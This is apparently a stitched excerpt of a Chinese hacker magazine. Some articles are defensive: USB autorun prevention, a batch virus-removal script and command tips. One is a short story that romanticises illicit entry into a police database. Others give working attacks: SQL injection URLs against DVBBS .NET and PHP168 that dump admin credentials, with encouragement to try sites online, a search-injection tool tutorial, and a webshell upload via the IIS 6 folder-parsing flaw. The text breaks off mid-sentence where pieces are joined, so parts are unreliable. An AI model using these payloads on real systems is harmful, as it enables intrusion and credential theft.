这招相对于一些大众化的用户来说比较简单。选择“开始”→“运行”，键入“gpedit.msc”，在左窗口的“计算机配置”中选择“管理模板”→“系统”，打开“关闭自动播放”选择“启用”即可，如图 5 所示。

## 第 8 招：禁止创建 Autorun.inf
在根目录下建立一个文件夹，名字就叫 autorun.inf。由于 Windows 规定在同一目录中，同名的文件和文件夹不能共存，这样病毒就无法创建 autorun.inf 文件，即使您双击盘符也不会运行病毒。

## 第 9 招：磁盘属性法
此方法在 XP 系统中效果最好，打开“我的电脑”选择要关闭的盘符，查看属性，在弹出的窗口中选择“自动播放”，可针对不同的内容设置不同的操作。都选用“不执行操作”即可关闭自动播放功能，如图 6 所示。

## 第 10 招：软件法
现在的安全软件一般都具有禁止自动播放的功能，例如：360 安全卫士、金山清理专家等等，都可以进行防护设置。

以上就是我的经验累积，希望这些小小的招数能给大家提供一些帮助。

> 编辑点评：
> 很实用的小技艺，我也不想多说，大家觉得怎么简单你就怎么用吧。

# 拓宽注入工具的使用范围

图孤星

从本文你可以学到：搜索型注入探究

做“黑手”的读者已经快一年了，感觉自己的技术还是不行，就从没起过投稿的念头。但看了 4 月“黑手”，其中大量文章介绍了搜索型和文本框注入，且 6 月有个作者提出如何用工具进行搜索型注入的疑问，于是想起以前看过类似的文章，于是寻思寻思，厚着脸皮写了本文。但我的水平有限，又第一次写，错漏之处，望高手指出。

我翻了下以前的“黑手”，发现早在 06 年 2 月 lcx 前辈就提出了文本框注入，但当时我技术有限，看得有点不明不白，于是当时就一直恶补相关知识，其中就看到过一篇用 HDSI 来进行搜索注入的文章，现在想找来看，但找不到了，只能凭记忆来测试，再找注入方法。

在 4 月的“黑手”中介绍了嘉枫文章管理系统有这漏洞，于是找到这套系统，下载后便架起 IIS。用工具是要输入检测地址的，但搜索型是 POST 提交，地址不像 GET 似的显示在地址栏，所以要构造地址，就要知道 POST 上去的变量和变量值（注意看编辑点评）。

我记得那位前辈是用 WSockExpert 来截取的，于是拿出 WSockExpert，打开 IE 进程监视，然后在网页搜索框中输入“asp”，按下“搜索”，然后看截取的数据，如图 1 所示。但一看数据我就楞了下，两个 GET 提交，没有 POST 提交的数据。暗自纳闷，没有 POST 的变量能构造出地址吗？寻思是截取时出了问题，于是又试了几次，但截到的都是如此。怀着不解的心情，用手工检测了下，漏洞是存在的。如图 2、图 3 所示。

看截的数据，又是“+”又是 URL 编码，一顿头晕。想想不知道 GET 和 POST 的变量是否一样，如果一样的话，地址也就出来了，就尝试用这地址注入，但不成功，如图 4 所示。

后来又想到地址中那么多“+”，不知道是否可以用刺猬大哥的中转站把 + 号加上，再加注入语句。于是在中转站中把第一个 and 修改下，但一看第二个 and，两个 and 之间要加工具的注入语句，那么第二个 and 没办法加了，又失败！如图 5、图 6 所示。

后来不知道是出于自暴自弃还是自我安慰的心理，将问题推到是系统本身的问题上，又翻《黑手》，找了个 red88 企业系统来研究。架好 IIS 后就截数据，这次终于有 POST 提交的数据了。很兴奋地开始看其中的数据，找到那长长的变量更是高兴，感觉成功在望了，如图 7 所示。

找到搜索关键词“88”，将变量 keyword=88 移到最后。注意，这一步是一定要做的，以前遇到过的多变量入侵就是，对哪个变量注入就把哪个变量放在最后，否则工具就傻眼了。但访问页面时似乎不在意这个，哪个变量在后，访问都正常。

在变量前面加上 http://localhost/newssearch.asp?，以构造出 http://localhost/newssearch.asp?lm=%……&keyword=88 这样的地址，把它填到 HDSI 中，选中搜索型。还有一点，加上关键字！我加的是 "88"。测试的时候就是因为没加关键字，弄了一个多小时都没成功。接着把数据猜解，看到暴出的字段，终于成功了，如图 8、图 9 所示。

本文是研究注入方法为主，就不继续进后台拿 Webshell 了，有兴趣的朋友可以研究 4 月的“黑手”。

成功好像是成功了，但问题不少，比如第一套系统耐人寻味的数据，还有为什么一定要加上关键字等。我因为要考试复习，光研究这就用了挺长时间的，没办法再继续细细研究了。犹豫了好久，还是把文章投了，虽然技术不行，但一是希望高手帮忙解决一下问题，二是希望大家一起研究，让这技术更成熟。

两种形式，而都不是 POST 型的。GET 方式加上关键字后 HDSI 以及 NBSI 一般是可以检测出来的，而 POST 方式则需要抓包，然后构造好 URL 后放到工具，这样也可以跑出来。正因为作者分的不太清楚，所以才导致他对 GET 的数据不解。

还有一点就是工具是死的，过分依赖工具往往会让人的思想闭塞。不过，作者思考问题并着手解决问题的努力值得大家学习。多说一句，有些时候看到别人文章中提到的技术，看起来自己都了解，但实际你动手做了是不是会和你想的一样那样顺利呢？

### 编辑点评：
作者犯了一个错误，那就是搜索型注入分为 GET 和 POST 提交。

---

# Kava 我不怕，打造自己的专杀程序
图 冰海[LOVEGN]

从本文你可以学到：
- 如何手工查毒

最近同学发现自己的电脑运行得比较慢，让我看看是怎么回事。我二话没说就答应了，于是向他了解情况，他说刚重装的系统，就只有插过 U 盘，看样子应该是个 U 盘病毒。我就拿着朋友的 U 盘插在自己的电脑上，想看看有什么隐藏文件，正所谓我不入地狱谁入地狱嘛！可事情没我想的那么简单，我都没打开 U 盘就已经中招了，看来是截获了 WM_DEVICECHANGE 消息型的病毒，而且原本我的电脑是显示隐藏文件的，这下隐藏文件都消失了。在文件夹选项中改过来也没有什么用，过一会还是一样，看来该病毒程序对桌面进程还有监控的作用，如图 1 所示。

为了作进一步的了解，我们看看中毒后的结果。打开 C 盘的时候发现并不是像以往打开子窗口，而是重新打开了新窗口，看来是病毒程序重新调用了 explorer 桌面进程，如图 2 所示。

而且既然把隐藏属性给屏蔽了，这里面肯定有问题，虽然在 Windows 下没办法，那么我们就在 DOS 下查看隐藏文件，相信大家应该都知道吧，我就把结果贴出来，查看文件时注意下时间，如图 3、图 4 所示。

看到了吧，其实每个盘的根目录下都有，删除后还会继续生成，看来是还有监控程序，但任务管理器的进程并没有什么特别的，而且重启后也没用，所以它可能是开机自动运行，并将病毒功能的 DLL 文件注入到其他进程，然后再结束自己的进程，达到隐藏的效果。

既然是开机自动运行，无非就是服务启动、注册表启动、启动文件夹和启动文件等自启动方式，如果感觉复杂，建议使用 Autoruns 查看，还是挺方便的，如图 5 所示。

看到 kava 了吗？它就是病毒的主文件，在高亮度处双击就可直接打开注册表并找到该处，这就是该软件的优点，不用一步一步去找了。不要高兴得太早，问题并没有解决，开机的时候它就把自己的 DLL 样本注入到其它的程序中，如果不小心还会触发它，况且我们又不知道 DLL 的文件名，这可怎么找呢？

上面我们曾提到该程序对桌面进程有监控的作用，我们可以查看下桌面进程调用的 DLL 文件，说不定有收获。其实我告诉大家，大部分这样的病毒必须注入到桌面进程，如果不这样，当你双击盘符的时候，你的病毒程序就不会处理该事件，那样只是你的病毒程序运行起来，并没有给用户原有的响应，在 Windows 中就会弹出“打开方式”对话框，这样就很明显的告诉操作者，有不明程序要运行了，呵呵。

用系统自带的 tasklist 命令查看 explorer.exe，命令格式：`tasklist /m /fi "pid eq [自己机器的explorer.exe的pid号]"`，结果如图 6 所示。

看到 kavo0.dll 没有？它和 kava 很相似，看来确实如我们所想，它注入了 explorer 进程，其实它也就是病毒的 DLL 样本，所有的分析工作都搞定了。下面我们来编写相应的专杀程序，由于它并没有感染文件，我们没有必要对文件进行修改，大家也不用担心，这样我们就完全可以用自己的 VBS 知识或批处理知识按照上面的分析过程写出自己的专杀版，下面我就用批处理来打造自己的专杀程序，代码如下：

```batch
@echo off
:: 查看kavo0.dll已经注入的所有进程，将其保存在1.txt
@tasklist /m kavo0.dll > 1.txt
:: 结束被kavo0.dll注入的进程
@for /f "skip=3 tokens=1,* delims= " %%i in (1.txt) do taskkill /f /im %%i
@del /f 1.txt
@cd \
@c:
@cd windows
@cd system32
@attrib -h -s
@del /f kava.exe
@del /f kavo0.dll
:: 修改注册表恢复隐藏文件显示
@reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL" /v "checkedvalue" /t reg_dword /d 1 /f
:: 删除注册表启动项
@reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v kava /f
:: 删除各盘符下的病毒副本
@for %%b in (c d e f) do (
    %%b:
    cd \
    attrib -h -s autorun.inf
    attrib -h -s ntdelect.exe
    del /f ntdelect.exe
    del /f autorun.inf
)
:: 重启桌面进程
@start explorer.exe
```

将它保存后并运行，随着桌面进程的结束和重启，病毒也无声地被我们带走，这时电脑恢复到原来的状态了，呵呵。就这样，病毒也终于被彻底清除啦。

[文章中提到的工具及代码已收录到本期光盘]

### 编辑点评：
和病毒交道打多了，就会习惯查毒无非就那么几招，不过手工查毒是一个阶段，而编写专杀程序又是另外一个阶段，希望大家能够在这个过程中不断的进步！

---

# 几个命令的高级应用（续篇）
图 水的原点[L.S.T]

从本文你可以学到：
- 几个命令的高级应用

上次我介绍了两个在杀毒方面用得着的命令，那两个命令在于发现病毒和揪出病毒，那么今天我就再介绍两个命令让大家把病毒请出自己的电脑。

接上次的说，比如我们发现自己明显是中了 U 盘病毒，病毒体明显被触发了，这个时候我们又不清楚病毒体的名字是什么？于是，我们想通过“我的电脑”->“工具”->“文件夹选项”来把所有的文件都显示出来，可这个时候我们改来改去，始终改不过来，怎么办呢？也有人说，改注册表呗！嗯，这个方法是不错，可对于那长长的键值来说，我们记得住吗？而且有时候病毒有监视程序，我们改来改去也是改不过来的。

那么这里教大家一个简单的方法来解决这个问题。大家都知道 dir 这个命令吧？我们用一下试试，如图 1 所示。从图 1 中我们可以看到和我们平常进 C 盘看到的文件是一样的，没有达到我们想到的结果，可它如果带上参数的话，可是很强大的哦。至于如何看参数，你用一下 `dir /?` 就知道了。下面我们来试试这个命令：`dir /s`，看效果，如图 2 所示。

是不是把所有的系统文件、隐藏文件都显示出来了？当然病毒文件和陌生程序也会一目了然的。除了这个参数外，我们再配合 `/a` 参数，可以把整个 C 盘下的指定文件都显示出来（不管它有没有系统属性）。我以 1.txt 为例，在 C 盘根目录上放一个，在 `C:\Program Files` 目录下也放一个，我把它加上系统属性，如图 3 所示。

那么现在我们在 CMD 下切换到 C 盘下，用 `dir 1.txt /a /s` 试下效果，如图 4 所示。是不是很方便呀？比起在图形界面下的搜索，这个用起来似乎方便多了！大家可以参照此法，将 autorun.inf 文件或病毒程序全找出来。不过，前提得结束病毒源程序，因为现在的病毒一般会有保护程序，删除后会再生成的。

结合上次的文章，既然找到了病毒，我们就得删除它们。如果我们还是想用“del 文件名”的方法来删除的话，那我们也太小看病毒了。这里 del 的参数也是很厉害的，比如我不加任何参数用 `del 1.txt` 则会出现如图 5 的提示。可这个是明明存在的，那我们用 `del 1.txt /a /s` 删除所有的 1.txt 文件呢？结果如图 6 所示。

还是不行呀！不急，不急，`/a` 后面还有参数哦。很明显，1.txt 加上系统属性后，我们得把这些属性去掉后就可以删除了。要是不清楚它有哪些系统属性，那我们把它们都去掉就行了，这里我给出其中 `/a` 命令后的参数的使用方法：

- `/A` 根据属性选择要删除的文件。
- attributes:
    - R 只读文件
    - S 系统文件
    - H 隐藏文件
    - A 存档文件
    - - 表示“否”的前缀

我们用命令 `del 1.txt /a -r -s -h -a /s`，具体解释就不说了，看效果……如图 7 所示。呵呵，似乎还是不行哦。绕了这么大的一个弯，那今天请出我最终想讲的 `/f` 参数吧，很强大，强制删除哦！执行 `del 1.txt /a /f /s`，看效果，如图 8 所示，灰飞烟灭了……

这下最终让文件不在了，而且也不会出现在回收站里面。好了，文章就到这里了，只介绍了两个命令，大家要是自己钻研的话，我相信大家也能发现这其中的趣味之处，到时候杀毒就不会因为没有杀毒软件而愁了，那时你或许就可以应对自如啦。

### 编辑点评：
说句实话，文章中所提到的东西确实不难，高手就过吧。不过，如果肯钻研的话，正如文章所说，你会发现这其中的趣味之处。大家多多努力！

---

# 黑小说
XApache

“当你穿山越岭的另一边，我在孤独的路上没有尽头。时常感觉你在耳后的呼吸，却未曾感觉你在心口的鼻息……”

半夜。热闹了一天的大街终于有了片刻的安静，卸下了庄严古老，停止了疲倦喧嚣。我戴上耳机走在路上，静静地听着 MP3，脑海里想的是自己一个网络安全从业者在北京这几年的酸甜苦辣。正好 MP3 开始播放这首：思念是一种病。

一直以为阿岳是不会唱这种舒服自然的抒情歌曲。因为早已习惯他当初的“爱的初体验”和“Free Night”，那种有点痞子气味的摇滚。可在这首歌里，没有堕落，没有发泄，只有悦耳的歌声和纯淳的叙述，和他五年前的曲风相比变化很大。突如其来的情绪和着那温暖心软的旋律，不自觉地开始让人陷入回忆，陷入沉静……

**四叶花 20:32:07**
你的行为不过是恶作剧心理导致的，恐怕是为了寻找刺激或向同伴炫耀吧，现在你上网的钱就是你刚刚抢来的吧。

惊恐，颤抖……嘈杂的网吧似乎寂静了，只有他的心跳声“扑通，扑通，扑通……”

什么地方出错了？被谁看见了？电脑后的这个人难道认识我？！冷静，冷静下来，回想当时……不，当时那个冷僻的小巷不可能有其他人的，那么……

**四叶花 20:32:59**
你缺少生活目标……

颤抖的手终于再次接近了键盘……

**游荡 20:35:47**
你是谁？

**四叶花 22:38:56**
CAT……

“嘀嘟……嘀嘟……”蓝红灯呼啸着，映着男孩惊恐的脸。
“是王丁吗？我们接到报警说你涉嫌抢劫，请跟我们走一趟。”

他无力地起身，临走时回头看了一眼屏幕，瞳孔顿时收缩，浑身像被抽空了，低下头，他笑了，“原来如此……”众人离去，留下电脑屏幕闪烁的影子。

光幽幽，夜睡了，电脑屏幕的光映着两张白皙的脸庞。“哈哈，又解决一个。”女孩摘下耳麦理了理头发，对着身边的男孩摆出一个 V 的手势。

“小景，不要每次都把我拖下水，迟早被你害死……”男孩边摘耳麦边抱怨着，“警局的数据库又不是公园，哪能随便出入啊，还要不留痕迹，小景，我可不是天才。”

“谁说哥哥不是天才？哥哥是超级天才，超级天才哦，哈哈……”女孩讨好地对他又是捏背又是捶肩的。

“小景，你作业做没？时间不早了，明天还要上课呢！”男孩摆出哥哥的架势，把妹妹推出书房。

“啊……哥，人家刚破完案还处于兴奋期呢，你帮我做作业好不好，天才苏英泽？”妹妹摆出一副可怜巴巴的小狗样，摇着尾巴。

英泽轻轻拉开妹妹讨好的手，反身绕到她身后，把她推出书房。“罪犯呢已经落网了，现在的你呢只是启山高中的普通高一学生，不是什么网络侦探 CAT，乖乖地做作业去！！！”说着便毫不留情地一脚把自己“亲爱的”妹妹踹进卧室。

“啊！！！哪有你这样绝情的哥哥！”苏景对着英泽的背影吼着。英泽摆摆手，带上了房门，只丢下一句：“抗议无效。”

“抗议无效……哎……”现实始终是要面对的，但现在的她只想睡觉，要知道用脑可是很累的事，可是……这该死的物理作业。晚修都结束了，居然还留作业？！可恶啊……不行了，困……
夜很深，某人的眼皮很重……

朦朦胧胧中，周围叽叽喳喳，有点吵。模糊糊地睁开眼，隐隐约约眼前有几个人影晃来晃去……教室？！我已经到学校了？嗯……早晨。哦，是哥哥叫醒的我，这么快已经到学校了啊？嗯，还没上课呢，再眯一会……

“CAT……CAT……”CAT 的名字不断地传进苏景的耳朵，她的意识有些恢复。
大家在谈论 CAT？对哦，昨天又破了一起案子呢，嘻嘻，到处都在谈论 CAT，CAT 好有名啊，嘻嘻……

苏景窃笑着，像个偷完香油的小老鼠。
“诶？睡神醒了？！”刘珊故作吃惊地看着她，苏景笑嘻嘻地拉着刘珊的手，“嘿，你们在讨论 CAT 呢？那么热闹？”
“原来你也对 CAT 大人感兴趣啊？”刘珊露出一副花痴像，“CAT 大人昨天又破了一起抢劫案呢，据说，这个人在 QQ 聊天时碰到了 CAT，就被他揭发了抢劫的事实。哇，太强了……”
CAT 大人？！哇，我已经升级为“大人”了？我真是太伟大了，苏景也露出一副花痴像，陷入无休止的遐想中。

上课铃无情地打破某人的美梦，对她来说剩下的只有等待，等待哥哥美味的午饭。
最美味的永远是哥哥的手艺，因此不论家离学校有多远，无论学校的午饭时间有多么的短，苏景都会义无反顾地冲回家吃饭。
为了这个，出车祸我也愿意啊。(哥哥：通常都是你害得别人差点出车祸。)

“哥…………(5 个 8 度拖长)我回来啦……”苏景带着她独家的 5 个 8 度拖长音冲向饭桌，顺手打开电视。英泽正端着菜出来，突然苏景眼中精光一闪，竖起大拇指：“nice！哥哥穿围裙的样子也很帅！”
“还有空看电视，快吃了去学校。”英泽放下菜伸手抢遥控器，苏景嘿嘿一声坏笑，躲过他的手把台换到新闻频道，那里正在播着昨天那起案子。
“我申请了在家午休，时间还早呢，嘿嘿，哥哥不想听听 CAT 本人对案子的解析吗？”(哥哥：明明是自己想说。)

“我真替那个抢劫犯可怜，他好不容易逃过抓捕，却被你这黄毛小丫头送进了监狱。”英泽摇摇头，一副惋惜状。
“才不是呢，是他自己说刚抢了钱，那还能怪我？”苏景扒了两口饭。
“自己？”英泽挑了挑眉。见哥哥有点兴趣，苏景来了劲，“所以当时我说‘你的行为不过是由恶作剧心理导致的，恐怕是为了寻找刺激或向同伴炫耀吧，现在你上网的钱就是你刚刚抢来的吧。’那时我就在想，他上网的那个网吧应该在他实施抢劫地点的附近。”

“他说自己抢劫你就信？”英泽给自己盛了碗饭。
“我那个四叶花的 QQ 上个人信息全是假的，而他却相信那些资料，放松了警惕，随后道出自己抢劫的事，目的也是向我炫耀。当然，他这么说我不能信，于是我继续和他闲聊，他当时语速很快，一可以说明他打字很快，二则说明他当时很兴奋。同时我看了他的资料，他的 QQ 等级是两个太阳一颗星星，说明他的 QQ 在线很长时间了。于是我作出了对他的初步判断：

1. 年纪不大，做事毛糙，有强烈的表现欲，特别是在异性面前，总想抢到表现自己的机会——他打字速度非常快且错别字连篇，字体较大且是鲜艳的红色，说明他渴望别人的关注。
2. 他应该是单身且情感生活不如意——因为他经常上网聊天，生活中的知心朋友很少，缺少关爱。
3. 幼稚——我问什么他就答什么，而且基本是真话，这点在后来你搜索的资料中已经印证了。
4. 他极其空虚无聊，总是生活在自己所构思的幻想中——他的网名是游荡，而且聊不了到几句便说起了‘我爱你’之类的话，他恐怕在现实中不容易有机会对心爱的人说这个，因此也只有在这个虚拟的网络世界里去说。”

苏景一板一眼地分析，眼中闪着光，表情异常认真。
“只是聊了几句，你简直把他给看穿了，真是恐怖，看来得离你远点了。”英泽故作害怕，向后挪了挪。苏景的眼神突然黯淡了，“学习社会工程学第一条——不可解读亲人朋友。”她扒了口饭，声音低了下来，“妈妈说的。”

英泽一怔，假装没听到，笑着给她夹菜，让她回到原来的话题，“然后呢？就这样确定他抢劫吗？”苏景回过神继续讲起来，“在我基本断定他抢劫是事实后，就让哥哥你去数据库核实那些信息，并且查一下当时的抢劫报案。不过倒是其次，我想估计那是小数目，又没伤人，报案的可能性不大。不过没想到被抢者的皮包里竟然藏了一张巨额支票，幸亏那小子不知道，不然他肯定不敢在附近的网吧这样大摇大摆地炫耀了。其实这案件案子很简单，只是吓唬他，然后报个警就 OK 了。要不是那张支票，我也没打算报警，直接教育教育就 OK 了，以我的能力，让他改过自新是没问题的。嘻嘻……”

苏景乐滋滋地吃起了饭，英泽给她夹着菜，回到了他哥哥式的唠叨，“不要玩过火了，这个身份千万不要泄露，不然以后我不帮你去警局的数据库‘串门’了。”
“知道了，这样我也是很喜欢的，暗爽的感觉真不错。你不知道，那些女生还以为 CAT 是男生，都在发花痴呢！哈哈！爽死我了！”苏景正笑得捧腹，发现英泽一副老鼠样准备开溜，马上一跃而起，站在饭桌前摆出圆规的标准架势指着英泽的鼻子：“苏英泽！你别想跑，老规矩！”

“那你就等着刷碗吧。”英泽眼中精光一闪，一个飞脚踹向苏景。苏景也不甘示弱，一脚挡开哥哥攻势的同时一拳直冲他的鼻子，“即使是哥哥，我也不会留情的。”又是一阵拳脚乱飞，夹杂着两人过招的声音，“一！二！三！……”
“四……哎哟……啊！”苏景突然摔倒在地抱着胳膊满地打滚，英泽忙停下手扶起苏景，“怎么了，怎么了，手怎么了，都怪我下手太……”苏景嘴角微微一弯，眼中精光一闪，“五！哈哈，哥哥，你输了！！刷碗吧！”苏景趁乱一拳轻轻打在英泽的肚子上，摆开英泽的手蹦蹦跳跳地回房睡午觉，丢下一句，“哥哥大笨蛋。”顺带做了个鬼脸。

当夜幕再次降临，漆黑的书房只有电脑屏幕的光在闪烁，屏幕前一双犀利的眼盯着论坛的一举一动。轻鸿一瞥，高脚酒杯里红酒晃动，“CAT 么？”

### 编辑点评：
这是一篇女高中生的原创作品，虽然是刚出道的新人，文笔有些稚嫩，但里面的逻辑推理却是合情合理，文章生动活泼，阅读起来充满趣味。凭借几招社会工程学，就将罪犯绳之以法。不知道后面还会不会再出续集呢？我们期待 CAT 大人的再次出现哦。

---

# 新闻练练看

## 小天奥运展望
各位小黑拿到本期刊物的时候差不多正在看奥运会了吧，不晓得有没有幸运儿到现场去观看奥运呢？不晓得有没有“幸运刊”被带到奥运场里呢（黑手算不算违禁物品呀）？不知道来了那么多的外国朋友中有没有安全爱好者呢？不知道他们会不会在报刊亭看到黑手，然后买一大堆回去带给自己的黑友们呢？然后的然后...

jannock

### 从本文可以学到：
- 1. .NET 版 DV 的漏洞分析
- 2. 利用方法

今天我来爆一下动网论坛 .NET 版的一个 SQL 注入 0day。对于动网的 ASP 版论坛，相信大部分人都有使用或者听说过，比较熟悉了，但是动网的 .NET 版呢？下面是引自动网首页的简介：

2007 年 10 月 29 号，动网 .net 1.1 正式版闪亮登场，面向全球用户正式提供免费下载使用。动网作为社区论坛模式的领航者，一直致力于研发功能完善，且适应广大用户需求的论坛程序，动网 .net 1.1 无疑又是一个让社区论坛焕然一新的作品。

# 一、漏洞分析

转入正题，由于 ASP.NET 安全性大大增强，引入了类型安全的 SQL 参数化查询方式，从根本上解决了 SQL 注入问题。但我们来看看动网 DotNet 的 SQL 语句写法（随便一句）：

```csharp
IDataReader reader = conn.GetReader("select UserLastIP, randpass, buycredit, sellcredit, trafutong, UserTopic, UserPost, userisclassical, UserDel, UserLogins, UserFace, LastLogin, UserGroupID, UserPower, LockUser, unlocktime, UserPassword, truepassword, UserEP, [UserMoney], UserID, UserName, JoinDate, isactivated, albumtotal, favalbumtotal, favphotototal from " + Fetch.TablePrefix + "user where UserName='" + Text.SqlEncode(name) + "' and isdelete=0");
```

从上面可以看出，动网还是保留了 ASP 原始的 SQL 语句写法，这就增加了 0day 出现的可能性。我们来看搜索页文件 search.aspx 的代码（说明一下，这里看动网的源码我是用工具 Reflector 查看的），由于代码太多，我这里只取一部分：

```csharp
this._tablename = ("" == this.Get("tablename").Trim()) ? this.Post("tablename") : this.Get("tablename");
object obj5 = this.conn.GetScalar("select count(*) from " + this._tablename + " Where 1 = 1 " + str2 + " and body like '%" + Text.SqlEncode(this._keyword) + "%'");


```

可以看出，`this._tablename` 变量没有经过过滤就直接放入数据库查询，这就造成了 SQL 注入漏洞。

# 二、漏洞测试和利用

## 1、测试方法
我们来构造一下语句，方法有很多，具体大家看看 search.aspx.cs 的源码，这里只提出一种。

构造 URL：`/bbs/search.aspx?refurl=search.aspx&isPostBack=1&keywordin=author&tablename=xxxx'&keyword=gsdfgsd&boardid=1`，结果如图 1 所示。
图 1 搜索结果

## 2、利用方法
注入点出来了，而且限制比较少，利用方法可以多种多样，这里只提供几种思路：

- **Access 版：**
  通过构造 SQL 语句，猜解出管理员密码。
- **Mssql 版：**
  - 方法 1、通过构造 SQL 语句，猜解出管理员密码（最笨做法）
  - 方法 2、通过 update 语句，得到管理员密码（比较一般）
  - 方法 3、通过 update 语句，更改管理员密码（还算可以）
  - 方法 4、通过 update 语句，把自己提升为管理员（较快）
  - 进入后台后，得到网站路径，通过备份得到 Webshell。
  - 方法 N、直接利用 mssql 的储存原理得到系统权限或其他信息（自己想吧！呵呵……）

（PS：动网官方论坛漏洞存在）

## 编辑点评：

DotNet DV 换了个坚硬的壳后，其内部还是软的，漏洞当然也不能避免，本文只是举了一个例子，其他类似的漏洞可以按照这个思路再去发掘。

---

**rabbitsafe/南京电力科学研究院**

从本文你可以学到：
- 1、PHP168 整站系统漏洞分析
- 2、漏洞的利用

大家好，最近工作忙，也没有怎么写文章了，今天有空在网上看资料，发现 PHP168 系统出了最新的 SQL 注射漏洞，于是有了这篇文章。

# 一、漏洞分析篇

PHP168 整站系统历经数年开发与完善，在功能和安全方面是相当出色的，它也是国内最早的多功能模块化网站管理软件系统。这套系统不仅适合于建设一般的企业、政府、学校、个人等小型网站，同时也适合于建设地区门户、行业门户、收费网站等大中型网站，其后台文章内容采集系统，更是方便实用，功能强大。

但其最新产品中出现了一个严重的 SQL 注射漏洞，可能被恶意用户查询数据库的敏感信息，如管理员密码，加密 key 等等，从而控制整个网站。这个 SQL 注射漏洞出现在 jsarticle.php 文件中，它是为文章搜索模块提供文章查询功能的程序。下面大家和我一起来看看这个 jsarticle.php 文件的漏洞代码部分，如图 1 所示。

其中我圈出来的部分就是产生 SQL 注射漏洞的关键部分，Keyword 变量的值就是用户提交的文章标题的值。当用户提交一个文章搜索标题时，值会传到 keyword 这个变量，然后，这个变量经过 urldecode 这个函数 ascii 码转义处理，通过 list_article 函数执行 SQL 语句。

我们再来看看 list_article 这个函数的代码，list_article 函数的代码在 article_function.php 文件里，如图 2 所示。从图 2 中我们可以看出，变量没有进行过滤，直接进行 SQL 查询处理了。

从上面的两段代码可知，用户提交的搜索标题只是经过 urldecode 函数进行 ascii 转义就进行了 SQL 查询，因此，我们完全可以绕过限制进行 SQL 注射。从它的 SQL 查询语句我们可以知道应该构造搜索的 SQL 注射语句，比如指定 keyword 的值为 `%2527`，`%25` 和 `%27` 分别是 `%` 和 `'` 的 ascii 码值，然后对语句进行关闭，用 UNION 联合查询进一步猜解。

好了，下面就是漏洞详细利用过程了，大家注意看哦！
图 1 漏洞相关代码
图 2 list_article 代码

# 二、漏洞利用篇

由于是本地测试环境，系统又没有任何文章，我们先注册一个用户，然后发表一、两篇文章，因为在后面测试漏洞用得着。朋友们在网上找站测试就没必要注册用户了，网上的系统不可能没有文章吧！

经过前面的漏洞详细分析，下面是测试 UNION 查询后面的 SELECT 值个数。经过慢慢的测试，当我提交 50 个数值时，页面就会爆出我们想要的结果，关键的查询数值是 3 和 5，下面是漏洞提交的完整测试语句：

`http://127.0.0.1/jsarticle.php?type=like&keyword=2007%2527)/**/UNION/**/SELECT/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50/*`

当我们提交以上语句时，在网页中显示出了数据值的位置是 3 和 5，如图 3 所示。图 3 中圈出的就是 UNION 联合查询时显示数据值的位置。由于我们知道 PHP168 系统的管理员表名和字段名，可以直接提交如下查询语句来查出管理员信息，下面是查询管理员内容的完整测试语句：

`http://127.0.0.1/jsarticle.php?type=like&keyword=2007%2527)/**/UNION/**/SELECT/**/1,2,concat(username,password),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50/**/FROM/**/p8_members/**/WHERE/**/uid=1/*`

在上面的语句中，我用了 concat 函数，这个函数的作用是把两个变量的值连接起来显示在页面中，这样只需要查询一次就可以得到管理员账户和口令。我们可以看到，利用这个函数的帮助，在 3 的位置上一次就查询出了管理员的账户和口令，如图 4 所示。图 4 中圈出的就是管理员账户和口令，管理员口令是 32 位 MD5 加密的。由于是在本地测试漏洞，所以管理员账户和口令都是默认的，下面还是登录一下后台吧！如图 5 所示。
图 3 UNION 查询
图 4 显示出管理员信息
图 5 后台

# 三、总结篇

下面跟大家说说网上实战测试漏洞要注意的问题。网上已经公布了这个漏洞的利用工具，工具是用 PHP 写的，我也测试了那个工具，但是测试的几个网站都不存在漏洞。分析了一下工具的代码，得知工具只会去猜解 `php168_members` 表名，一旦管理员安装时改了表名就不行了。但是，最新的 PHP168 系统的表名默认前缀都是 `p8`，管理员表名就是 `p8_members`，所以我用工具测试了几个网站，都显示不存在漏洞，但是手工依然可以曝出管理员账户和口令。

这里要跟大家说的经验是，一个漏洞一定要明白它的原理，而不是盲目用工具在网上去找网站进后台，拿 Webshell 挂马。这篇文章的漏洞分析较简单，漏洞利用也不存在什么难点，如果文章中有什么不明白的地方，可以到《黑客手册》论坛去找我，我的论坛 ID 是 rabbitsafe。（作者修改后的利用工具已经收录在光盘中。）

## 编辑点评：
PHP168 系统在得到越来越多的人关注，也有越来越多的漏洞被曝出，相信不久后还会有更致命的漏洞。

---

忘了是哪一期，曾经在手册上发表过一篇关于商贸通的 COOKIE 欺骗漏洞。那是商贸通 2006 版才有的漏洞，2005 版的不存在那样的漏洞。

Windows 2003 IIS 6.0 曝出了文件夹解析漏洞，当文件夹名为类似 `hack.asp` 的时候（即文件夹名看起来像一个 ASP 文件的文件名），此时该文件夹下的文本类型的文件都可以在 IIS 中被当做 ASP 程序来执行。这样黑客即可上传扩展名为 jpg 或 gif 之类的看起来像是图片文件的木马文件，通过访问这个文件就能运行木们创建一个文件夹 hua.asp。这样我们只要在此目录下上传一个写有一句话的图片文件，就可以利用这个漏洞了。
打开目标网站，按上面介绍的方法，注册一个 .asp 用户，然后上传一个写有一句话的 gif 文件，如图 7 所示。

上传成功后，便可在下面的文件管理中看到图片，如图 8 所示。

打开那个图片，如果看到的是一片空白，一般来说是成功了一半。然后，打开 lake2 兄的一句话客户端，输入那个图片文件地址和一句话密码，如图 9 所示。

然后，按下 send 按钮，返回如图 10 所示，说明漏洞利用成功。

> 谢谢看完我的文章，希望对大家有所帮助，文章中用到的相关页面代码已经收录在本期光盘中。
> 编辑点评：
> 说了很多次了，不要把用户输入放在客户端校验，虽然看上去很合理，但是其很容易就被绕过去啦，存在这样漏洞的系统该打 PP 了。

# 五、漏洞防范
针对这个文件夹解析漏洞，可做如下防范工作：

- 1. 有用户可自主命名文件夹权限的功能，建议检查文件夹名称的合法性，或者关闭用户上传功能。
